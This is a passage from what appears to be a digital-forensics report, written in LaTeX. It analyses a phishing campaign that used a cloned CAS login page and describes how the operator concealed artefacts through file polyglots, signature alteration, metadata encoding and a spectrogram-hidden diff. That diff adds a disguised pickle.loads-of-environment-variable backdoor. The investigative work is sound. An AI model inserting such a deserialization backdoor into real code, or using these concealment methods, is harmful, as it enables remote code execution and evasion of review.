 \documentclass[11pt,a4paper,final,oneside]{article}
\begin{document}
\section{Analysis of relevant findings}
\label{sec:analysis-of-relevant-findings}

\subsection{Nature of the incident}

\textit{(a) Did you find evidence that the reported activity was part of a scam? If so, describe the nature of the scam and reconstruct how it was conducted.
(b) Did you uncover any additional concealed artifacts during your investigation? If so, explain how these artifacts were concealed and describe the methodology used to recover them. For both (a) and (b), support your conclusions with the relevant evidence identified during the investigation.}


(a) The evidence establishes a credential-harvesting phishing campaign: a cloned CAS login page
(A003) with a working, if currently non-operational, credential-capture backend (A006), reached
via an email impersonating IST's IT services.

(b) Beyond the phishing kit itself, several additional artefacts were concealed within an
unrelated personal Git history belonging to the same operator. Concealment methods identified:
byte-level signature alteration (A021, A016's ICO header), file concatenation/polyglotting
(A016), and information encoding in normally-ignored container metadata (A013's frame
durations). One archive (A022) used password protection, with the password itself hidden in an
adjacent subtitle file rather than guessed.

A further, unrelated artefact from the same personal backup material yielded the most
significant technical finding of the investigation. \texttt{Music/dj\_cara\_after\_hours.wav}
(a Git LFS blob) hides a source-code diff in the spectrogram of its stereo side channel
((L-R)/2, 18--22 kHz band), decodable with \texttt{decode\_spectrogram\_messages.py}, a script
written by the authors for this purpose (\S\ref{sec:ai}, \S\ref{sec:appendices}). The diff
patches
\texttt{src/rag\_engine/query\_translator.py} to introduce
\texttt{pickle.loads(base64.b64decode(os.getenv(\allowbreak "AMELIA\_ISOTROPY\_TENSORS")))}
inside a function disguised as an embedding-whitening optimisation ("All-but-the-Top"
projection), together with a \texttt{cluster\_id} written from
\texttt{os.getenv("DEFAULT\_EVAL\_CLUSTER")}. This is the same file and mechanism referenced
in prose by Section 11 of A023 (\S\ref{sec:amelia-docs}) -- the audio artefact supplies the
actual code behind that report's "environmental fallback" description.
\end{document}
